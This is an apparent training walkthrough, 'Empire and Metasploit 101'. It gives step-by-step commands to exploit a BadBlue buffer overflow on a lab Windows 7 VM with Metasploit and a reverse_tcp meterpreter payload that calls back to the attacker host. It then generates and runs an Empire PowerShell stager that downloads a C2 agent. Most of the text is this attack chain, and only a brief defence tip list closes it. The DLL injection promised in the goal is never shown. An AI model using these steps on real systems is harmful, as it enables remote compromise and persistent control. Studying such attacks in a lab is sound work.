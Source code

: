 Empire and Metasploit 101




Goal: Use Empire and metasploit in example situation of network exploitation and post-exploitation host enumeration. We will exploit a network service on a Windows 7 VM, and then use our low-privilege shell to then execute an empire powershell stager, which will create an Empire agent on the local Windows 7 VM. After this, we will look through the various options available as an Empire agent.
Following this, we will generate a DLL stager within Empire, and then use our existing meterpreter session on the Windows 7 VM to perform a DLL injection attack, to inject another Empire agent, directly into memory.

Pre-Stuff: Empire is not just for windows. It has python based agents that can run on OS X and Linux. It's communication profile between agents and listeners is configurable, similar to CobaltStrikes. You can use pre-built or custom-made ones to employ such functionality. Empire is designed to stay off disk and in memory as much as possible. Empire does contain modules that will not follow this and will touch disk. For information on Empire Modules, I recommend looking at the Github. That is where you will find the latest supported modules.




Related Links:
* [Metasploit Unleashed Course](https://www.offensive-security.com/metasploit-unleashed/)
* [Empire Tips and Tricks](https://enigma0x3.net/2015/08/26/empire-tips-and-tricks/)

* [Empire Github](https://github.com/EmpireProject/Empire)
* [Meterpreter basics - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Stagers - Empire](http://www.powershellempire.com/?page_id=104)
* [Agents 101 - powershellempire.com](https://www.powershellempire.com/?page_id=106)


Required Software:
 
Download Windows 7 VM
    * https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/

Software to download/install within the Windows 7 VM:
	* [BadBlue - ExploitDB](https://www.exploit-db.com/exploits/16806/)
		* [Application](https://www.exploit-db.com/apps/396bedff015be885c1719f39f4561081-badblue.tar_.gz)
	* Unzip the `.tar` file with 7zip, and then extract the resulting zip file to end with the installer .exe.

Download Kali VM
	* https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/

Commads to run/Software to install within the Kali VM:
    * Update repos
    	* 'apt update && apt upgrade -y'
    * Empire [QuickStart](http://www.powershellempire.com/?page_id=110)
        * https://github.com/EmpireProject/Empire
        	* 'git clone '
        	* 'cd Empire'
        	* './setup/install.sh'
        	* './setup/setup_database.py'
        * Empire is now setup and configured!

I leave it to the reader to import/configure both VMs to their particular desired environment/virtualization platform. For this document, I will assume both machines are within the same subnet of `1.1.254.*.`

Kali VM - 1.1.254.2
Windows 7 VM - 1.1.254.5

Steps:
* Turn on both virtual machines. Ensure everything is working correctly so far.
* Kali:
    * Launch Metasploit
	    	* msfconsole
	    * Launch the postgres DB
	    * Perform a network scan on the windows machine to look for vulnerable services:
	    	* db_nmap -sS -sV --version-intensity=0 -p80 1.1.254.5
	    * Perform a search for the string 'badblue 2.7'
	    * Note the module 'BadBlue 2.72b PassThru Buffer Overflow'
	    * Use/load the module:
	    	* 'use exploit/windows/http/badblue_passthru'
	    * Display the available targets
	    	* 'show targets'
	    * Display the available options
	    	* 'show options'
		* Set RHOST
			* 'set RHOST 1.1.254.5'
		* Set a payload
			* For this, we'll use the regular reverse_tcp meterpreter
			* 'set payload windows/meterpreter/reverse_tcp'
		* Show payload options
			* 'show payload options'
		* Set LHOST for the payload(needs to callback to somewhere)
			* 'set LHOST 1.1.254.2'
	    * Show options one more time to make sure everything is correct
	    	* 'show options'
	    * If everything is good, just type:
	    	* 'run' and hit enter.
	    * Congratulations! You should now have an active meterpreter session and be sitting at a meterpreter prompt.
	    * Try typing 'help' to see available commands
	    	* [Meterpreter basics - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
	    	* [Meterpreter Documentation](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter)
	    * For now, we're going to leave this be. Simply open another terminal, and go onto the next part.
	    -----------

	* Empire
	    * cd into the directory where you downloaded/installed Empire
	    * run Empire with the command ./empire
	    * About Empire: 
	    	* General workflow: Create listener -> Create stager -> Stager instantiates/pulls down/runs an Agent
	        * Creating listeners in Empire is done by entering the listener menu, setting the appropriate options, and then issuing the command 'execute'
	    * Enter the 'listener' menu
	    	* 'listeners'
	    * Show the options available for listeners
	    	* 'show options'	
	    * Set your desired option changes
	    	* 'set Name Test1A'
	    * Run Listener
	    	* 'run'
	    * This instantiates the listener and causes it to start listening for agents
	    -----------
	    * Generate a Stager [Stagers - Empire](http://www.powershellempire.com/?page_id=104)
	    	* Generating agents in Empire is similar to creating listeners
	    * enter the command
	    	* 'back'
	    * This should put you back at the Empire main menu. If not, keep issuing the back command until you find yourself at the main menu
	    * Once at the main menu, type the command
	    	* 'usestager'
	    	* then press tab twice
	    	* This will list all available stagers for use
	    	* For now, we are only concerned with the 'launcher' stager
	    * Type the command
	    	* 'usestager launcher'
	    * You will now be in the 'stager/launcher' menu
	    * Type the command
	    	* 'options'
	    	* This will show you all available options for the currently selected stager
	    * We want to set the options 'Listener' and 'OutFile'
	    * To enable the launcher to use our previously configured listener, issue the command
	    	* 'set Listener Test1A'
	    		* This will set our previously created listener as our new agents listener
	    * Type the command
	    	* 'set OutFile /tmp/test1'
		    	* This will store the stager command generated in a text file. After generating the stager command, we will copy it from the designated file and run it. 
	    * Verify everything is correct with the command
	    	* 'options'
		* Once verified, now type 
			* 'generate'
		* This will generate your configured&customized stager. It will be stored at the previously set file location, '/tmp/test'.
		* We then want to navigate to the txt file, open it, and copy the single line of txt. This is the encoded powershell command that will download an agent from your listener 
		-----------
		* Instantiating the agent
		* Now, go back to your meterpreter session you created earlier, and issue the command
			* 'shell'
				* This will drop you to a system shell prompt. Perfect for executing that one line powershell command.
		* Paste the command you copied earlier into the current shell prompt and hit enter. You should receive no confirmation on your windows command prompt. You should however receive a notice on your other command prompt, that you have a new agent in Empire!
		-----------
		* Interacting with the agent
		* At the Empire command menu, you should see an alert for a new agent, with a name consisting of a series of semi-random alphanumeric characters
		* To interact with and issue commands to your new agent, you must issue the following command from the main menu of the Empire command menu
			* 'agents'
		* Then
			* 'interact 'Agent_Name_Here''
		* At this point, you will be issuing commands to the selected agent. Empire is *NOT* a real time tool. Empire works by giving agents tasks to perform, and then the agents report the results to the corresponding listener. Users can issue commands and have near-real time response times through an agent, however, they should not be thought of as a real-time interactive terminals, and more as a errand-boys running tasks.
		------------
		* Using the Agent
		* Using agents are accomplished by issuing them tasks. 
		* [Agents 101 - powershellempire.com](https://www.powershellempire.com/?page_id=106)
		* Specifically, the 'usemodule' command is of specific interest.
		* If we double tap tab here,we can see all available command modules available currently.
			* Or we can check Empire's current main modules on github: [Link](https://github.com/EmpireProject/Empire/tree/master/data/module_source)
			* Most of them are very nicely documented within the code/have a brief description at the top of the file. If you are running it, you should probably know what it does.


Tips for defending against this:
	* Procmon process logging
	* Network Logging
	* Hunting empire
